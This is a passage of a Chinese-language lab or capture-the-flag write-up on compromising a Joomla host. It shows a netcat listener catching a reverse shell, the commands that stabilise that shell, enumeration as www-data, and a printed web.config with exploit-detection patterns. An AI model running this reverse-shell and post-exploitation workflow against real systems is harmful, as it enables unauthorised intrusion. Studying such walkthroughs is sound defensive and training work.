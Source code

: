 这次成功了！Kali的监听器收到了连接：

```shell
┌──(kali㉿kali)-[~]                                                                                                                                                                
└─$ nc -lvnp 8888                                                                                                                                                                  
listening on [any] 8888 ...                                                                                                                                                        
connect to [192.168.205.206] from (UNKNOWN) [192.168.205.207] 39696
```

#### 2. 稳定Shell

得到的初始Shell不太好用，需要稳定一下：

```bash
# 在反弹回来的shell里执行
script /dev/null -c bash
# 按 Ctrl+Z 放到后台
# 在Kali终端执行
stty raw -echo; fg
# 回车，然后继续在反弹shell里执行
reset xterm
export TERM=xterm
export SHELL=/bin/bash
stty rows 24 columns 80 # 根据自己终端调整
```

OK，现在有个像样的Shell了。

#### 3. 权限提升 (`www-data` -> `root`)

当前用户 `www-data`：

```
www-data@X1:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

到处翻翻看，先看看 `/home` 和 `/var/www` 目录：

```shell
www-data@X1:/$ cd /home/
www-data@X1:/home$ ls -al
total 12
drwxr-xr-x  3 root    root    4096 Apr 11 22:27 .
drwxr-xr-x 19 root    root    4096 May 10 03:38 ..
drwx------  2 welcome welcome 4096 May 10 03:44 welcome
www-data@X1:/home$ cd /var/www/html
www-data@X1:/var/www/html$ ls -al 
# ... (Joomla 文件列表) ...
www-data@X1:/var/www/html$ cat web.config.txt 
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <location path=".">
   <system.webServer>
       <directoryBrowse enabled="false" />
       <rewrite>
           <rules>
               <rule name="Joomla! Common Exploits Prevention" stopProcessing="true">
                   <match url="^(.*)$" ignoreCase="false" />
                   <conditions logicalGrouping="MatchAny">
                       <add input="{QUERY_STRING}" pattern="base64_encode[^(]*\([^)]*\)" ignoreCase="false" />
                       <add input="{QUERY_STRING}" pattern="(&gt;|%3C)([^s]*s)+cript.*(&lt;|%3E)" />
                       <add input="{QUERY_STRING}" pattern="GLOBALS(=|\[|\%[0-9A-Z]{0,2})" ignoreCase="false" />
```